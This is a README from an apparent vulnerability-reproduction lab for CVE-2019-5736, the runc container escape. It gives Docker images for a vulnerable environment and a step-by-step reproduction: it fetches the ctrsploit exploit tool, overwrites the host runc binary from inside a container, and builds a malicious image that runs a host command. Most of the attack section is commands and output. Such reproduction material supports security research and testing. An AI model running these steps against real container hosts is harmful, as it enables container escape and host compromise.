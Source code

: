 # cve-2019-5736

* dqd:
  * ssst0n3/docker_archive:cve-2019-5736 -> ssst0n3/docker_archive:cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:cve-2019-5736_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2019-5736 -> ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0

## usage

```shell
$ cd vul/cve-2019-5736
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

### reproduce

#### exec

terminal 1

```shell
root@cve-2019-5736:~# docker run --name poc -ti busybox:1.34 sh
root@b54c1cd02517:/# wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@b54c1cd02517:/# chmod +x /usr/bin/ctrsploit
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
```

terminal 2

```shell
root@cve-2019-5736:~# docker exec -ti poc /bin/sh
```

terminal 1

```shell
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
INFO[0000] Found the PID: 22                            
INFO[0000] Successfully got the file handle             
INFO[0000] Successfully got write handle&{0xc00009a060} 
INFO[0000] The command executed is#!/bin/bash
touch /escaped
root@c4602d14a7f8:/# exit
-rw-r--r-- 1 root root 0 Oct 14 08:49 /escaped
```

#### image

```shell
root@cve-2019-5736:~# ctrsploit vul 5736 x image -c 'touch /escaped'
INFO[0000] exploit generated in poc-cve-2019-5736 directory, build it and push it to your registry
docker build -t poc poc-cve-2019-5736 
root@cve-2019-5736:~# docker build -t poc poc-cve-2019-5736
Sending build context to Docker daemon  6.144kB
Step 1/10 : FROM golang:1.16 AS builder
 ---> 972d8c0bc0fc
Step 2/10 : COPY overwriter.go /
 ---> 6fe005276394
Removing intermediate container bcd95d06fe39
Step 3/10 : COPY ld.go /
 ---> c96cc8d25694
Removing intermediate container deac0e0c9b4e
Step 4/10 : RUN CGO_ENABLED=0 go build -o /overwriter /overwriter.go
 ---> Running in 5527dc25ba1a
 ---> 1559134298da
Removing intermediate container 5527dc25ba1a
Step 5/10 : RUN CGO_ENABLED=0 go build -o /ld /ld.go
 ---> Running in e870f2e20af3
 ---> 07547540fe01
Removing intermediate container e870f2e20af3
Step 6/10 : FROM ubuntu:16.04
 ---> b6f507652425
Step 7/10 : COPY --from=builder /ld /lib64/ld-linux-x86-64.so.2
 ---> Using cache
 ---> e15e9f6a5e5c
Step 8/10 : COPY --from=builder /overwriter /
 ---> 3be58e5a6a06
Removing intermediate container c9ea8ad203d6
Step 9/10 : COPY payload /payload
 ---> 55529e029bf9
Removing intermediate container a0468d84af75
Step 10/10 : ENTRYPOINT /proc/self/exe
 ---> Running in bf38aaf8feaa
 ---> d8d16c4d99b9
Removing intermediate container bf38aaf8feaa
Successfully built d8d16c4d99b9
Successfully tagged poc:latest
root@cve-2019-5736:~# docker run -ti poc
ld
[+] Successfully got the file handle 3
overwriter
/proc/self/fd/3
[+] Successfully got write handle &{0xc00004a060}
[+] The command executed is 
#!/bin/bash
touch /escaped
root@cve-2019-5736:~# ls -lah /escaped 
-rw-r--r-- 1 root root 0 Oct 14 09:34 /escaped
```


### env details

```shell
root@cve-2019-5736:~# docker --version
Docker version 17.06.0-ce, build 02c1d87
root@cve-2019-5736:~# docker-runc --version
runc version 1.0.0-rc3
commit: 2d41c047c83e09a6d61d464906feb2a2f3c52aa4
spec: 1.0.0-rc5
```

## build

```shell
make all DIR=vul/cve-2019-5736
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
```
